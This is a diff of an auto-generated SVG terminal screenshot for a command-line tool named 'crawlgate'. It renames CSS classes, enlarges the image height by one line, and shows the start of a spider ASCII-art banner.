

- <svg xmlns="http://www.w3.org/2000/svg" class="rich-terminal" viewBox="0 0 1141 1099.2">
+ <svg xmlns="http://www.w3.org/2000/svg" class="rich-terminal" viewBox="0 0 1141 1123.6">
  <style>

    @font-face {
        font-family: "Fira Code";
        src: local("FiraCode-Regular"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff2/FiraCode-Regular.woff2") format("woff2"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff/FiraCode-Regular.woff") format("woff");
        font-style: normal;
        font-weight: 400;
    }
    @font-face {
        font-family: "Fira Code";
        src: local("FiraCode-Bold"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff2/FiraCode-Bold.woff2") format("woff2"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff/FiraCode-Bold.woff") format("woff");
        font-style: bold;
        font-weight: 700;
    }

-     .terminal-3453223315-matrix {
+     .terminal-73425060-matrix {
        font-family: Fira Code, monospace;
        font-size: 20px;
        line-height: 24.4px;
        font-variant-east-asian: full-width;
    }

-     .terminal-3453223315-title {
+     .terminal-73425060-title {
        font-size: 18px;
        font-weight: bold;
        font-family: arial;
    }

-     .terminal-3453223315-r1 { fill: #c5c8c6 }
- .terminal-3453223315-r2 { fill: #c5c8c6;font-weight: bold }
- .terminal-3453223315-r3 { fill: #868887 }
- .terminal-3453223315-r4 { fill: #9a9b99 }
- .terminal-3453223315-r5 { fill: #6c6d6c }
- .terminal-3453223315-r6 { fill: #d0b344;font-weight: bold }
+     .terminal-73425060-r1 { fill: #c5c8c6 }
+ .terminal-73425060-r2 { fill: #c5c8c6;font-weight: bold }
+ .terminal-73425060-r3 { fill: #868887 }
+ .terminal-73425060-r4 { fill: #9a9b99 }
+ .terminal-73425060-r5 { fill: #6c6d6c }
+ .terminal-73425060-r6 { fill: #d0b344;font-weight: bold }
    </style>
  <defs>
-     <clipPath id="terminal-3453223315-clip-terminal">
-       <rect x="0" y="0" width="1121.4" height="1048.2" />
-     </clipPath>
-     <clipPath id="terminal-3453223315-line-0">
+     <clipPath id="terminal-73425060-clip-terminal">
+       <rect x="0" y="0" width="1121.4" height="1072.6" />
+     </clipPath>
+     <clipPath id="terminal-73425060-line-0">
      <rect x="0" y="1.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-1">
+     <clipPath id="terminal-73425060-line-1">
      <rect x="0" y="25.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-2">
+     <clipPath id="terminal-73425060-line-2">
      <rect x="0" y="50.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-3">
+     <clipPath id="terminal-73425060-line-3">
      <rect x="0" y="74.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-4">
+     <clipPath id="terminal-73425060-line-4">
      <rect x="0" y="99.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-5">
+     <clipPath id="terminal-73425060-line-5">
      <rect x="0" y="123.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-6">
+     <clipPath id="terminal-73425060-line-6">
      <rect x="0" y="147.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-7">
+     <clipPath id="terminal-73425060-line-7">
      <rect x="0" y="172.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-8">
+     <clipPath id="terminal-73425060-line-8">
      <rect x="0" y="196.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-9">
+     <clipPath id="terminal-73425060-line-9">
      <rect x="0" y="221.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-10">
+     <clipPath id="terminal-73425060-line-10">
      <rect x="0" y="245.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-11">
+     <clipPath id="terminal-73425060-line-11">
      <rect x="0" y="269.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-12">
+     <clipPath id="terminal-73425060-line-12">
      <rect x="0" y="294.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-13">
+     <clipPath id="terminal-73425060-line-13">
      <rect x="0" y="318.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-14">
+     <clipPath id="terminal-73425060-line-14">
      <rect x="0" y="343.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-15">
+     <clipPath id="terminal-73425060-line-15">
      <rect x="0" y="367.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-16">
+     <clipPath id="terminal-73425060-line-16">
      <rect x="0" y="391.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-17">
+     <clipPath id="terminal-73425060-line-17">
      <rect x="0" y="416.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-18">
+     <clipPath id="terminal-73425060-line-18">
      <rect x="0" y="440.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-19">
+     <clipPath id="terminal-73425060-line-19">
      <rect x="0" y="465.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-20">
+     <clipPath id="terminal-73425060-line-20">
      <rect x="0" y="489.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-21">
+     <clipPath id="terminal-73425060-line-21">
      <rect x="0" y="513.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-22">
+     <clipPath id="terminal-73425060-line-22">
      <rect x="0" y="538.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-23">
+     <clipPath id="terminal-73425060-line-23">
      <rect x="0" y="562.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-24">
+     <clipPath id="terminal-73425060-line-24">
      <rect x="0" y="587.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-25">
+     <clipPath id="terminal-73425060-line-25">
      <rect x="0" y="611.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-26">
+     <clipPath id="terminal-73425060-line-26">
      <rect x="0" y="635.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-27">
+     <clipPath id="terminal-73425060-line-27">
      <rect x="0" y="660.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-28">
+     <clipPath id="terminal-73425060-line-28">
      <rect x="0" y="684.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-29">
+     <clipPath id="terminal-73425060-line-29">
      <rect x="0" y="709.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-30">
+     <clipPath id="terminal-73425060-line-30">
      <rect x="0" y="733.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-31">
+     <clipPath id="terminal-73425060-line-31">
      <rect x="0" y="757.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-32">
+     <clipPath id="terminal-73425060-line-32">
      <rect x="0" y="782.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-33">
+     <clipPath id="terminal-73425060-line-33">
      <rect x="0" y="806.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-34">
+     <clipPath id="terminal-73425060-line-34">
      <rect x="0" y="831.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-35">
+     <clipPath id="terminal-73425060-line-35">
      <rect x="0" y="855.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-36">
+     <clipPath id="terminal-73425060-line-36">
      <rect x="0" y="879.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-37">
+     <clipPath id="terminal-73425060-line-37">
      <rect x="0" y="904.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-38">
+     <clipPath id="terminal-73425060-line-38">
      <rect x="0" y="928.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-39">
+     <clipPath id="terminal-73425060-line-39">
      <rect x="0" y="953.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-40">
+     <clipPath id="terminal-73425060-line-40">
      <rect x="0" y="977.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-3453223315-line-41">
+     <clipPath id="terminal-73425060-line-41">
      <rect x="0" y="1001.9" width="1122.4" height="24.65" />
    </clipPath>
+     <clipPath id="terminal-73425060-line-42">
+       <rect x="0" y="1026.3" width="1122.4" height="24.65" />
+     </clipPath>
  </defs>
-   <rect fill="#292929" stroke="rgba(255,255,255,0.35)" stroke-width="1" x="1" y="1" width="1139" height="1097.2" rx="8" />
-   <text class="terminal-3453223315-title" fill="#c5c8c6" text-anchor="middle" x="569" y="27">crawlgate</text>
+   <rect fill="#292929" stroke="rgba(255,255,255,0.35)" stroke-width="1" x="1" y="1" width="1139" height="1121.6" rx="8" />
+   <text class="terminal-73425060-title" fill="#c5c8c6" text-anchor="middle" x="569" y="27">crawlgate</text>
  <g transform="translate(26,22)">
    <circle cx="0" cy="0" r="7" fill="#ff5f57" />
    <circle cx="22" cy="0" r="7" fill="#febc2e" />
    <circle cx="44" cy="0" r="7" fill="#28c840" />
  </g>
-   <g transform="translate(9, 41)" clip-path="url(#terminal-3453223315-clip-terminal)">
-     <g class="terminal-3453223315-matrix">
-       <text class="terminal-3453223315-r1" x="1122.4" y="20" textLength="12.2" clip-path="url(#terminal-3453223315-line-0)">
- </text>
-       <text class="terminal-3453223315-r1" x="0" y="44.4" textLength="85.4" clip-path="url(#terminal-3453223315-line-1)"> \\  //</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="44.4" textLength="12.2" clip-path="url(#terminal-3453223315-line-1)">
- </text>
-       <text class="terminal-3453223315-r1" x="0" y="68.8" textLength="97.6" clip-path="url(#terminal-3453223315-line-2)">--(oo)--</text>
-       <text class="terminal-3453223315-r1" x="1122.4" y="68.8" textLength="12.2" clip-path="url(#terminal-3453223315-line-2)">
- </text>
-       <text class="terminal-3453223315-r1" x="0" y="93.2" textLength="85.4" clip-path="url(#terminal-3453223315-line-3)"> //  \\</text>
